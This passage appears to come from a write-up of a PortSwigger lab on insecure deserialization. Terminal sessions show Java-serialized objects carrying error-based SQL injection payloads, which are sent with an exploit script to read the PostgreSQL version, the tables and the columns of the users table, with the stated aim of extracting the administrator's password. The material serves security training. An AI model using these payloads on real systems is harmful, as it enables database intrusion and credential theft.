 **Let's try to find PostgreSQL version!**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:06:40
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:08:12
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAUCcgVU5JT04gQUxMIFNFTEVDVCBOVUxMLE5VTEwsTlVMTCxDQVNUKHZlcnNpb24oKSBBUyBJTlQpLE5VTEwsTlVMTCxOVUxMLE5VTEwtLSAt
Deserialized id: ' UNION ALL SELECT NULL,NULL,NULL,CAST(version() AS INT),NULL,NULL,NULL,NULL-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:08:14
╰─○ python3 exploit.py
Internal Server Error
java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: "PostgreSQL 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit"
```

- PostgreSQL information: PostgreSQL 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1)

**Armed with above information, we can start to extract the `administrator`'s password!**

**Listing all tables:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:16:08
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:19:35
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAiicgVU5JT04gQUxMIFNFTEVDVCBOVUxMLE5VTEwsTlVMTCxDQVNUKChTRUxFQ1QgdGFibGVfbmFtZSBGUk9NIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgTElNSVQgMSBPRkZTRVQgMCkgQVMgSU5UKSxOVUxMLE5VTEwsTlVMTCxOVUxMLS0gLQ==
Deserialized id: ' UNION ALL SELECT NULL,NULL,NULL,CAST((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET 0) AS INT),NULL,NULL,NULL,NULL-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:19:37
╰─○ python3 exploit.py
Internal Server Error
java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: "users"
```

- Found table `users`

**Listing table `users`'s columns:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:20:18
╰─○ javac Main.java   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:21:33
╰─○ java Main         
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQApScgVU5JT04gQUxMIFNFTEVDVCBOVUxMLE5VTEwsTlVMTCxDQVNUKChTRUxFQ1QgY29sdW1uX25hbWUgRlJPTSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyBXSEVSRSB0YWJsZV9uYW1lPSd1c2VycycgTElNSVQgMSBPRkZTRVQgMCkgQVMgSU5UKSxOVUxMLE5VTEwsTlVMTCxOVUxMLS0gLQ==
Deserialized id: ' UNION ALL SELECT NULL,NULL,NULL,CAST((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0) AS INT),NULL,NULL,NULL,NULL-- -
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 19:21:35
╰─○ python3 exploit.py
Internal Server Error
java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type integer: "username"
```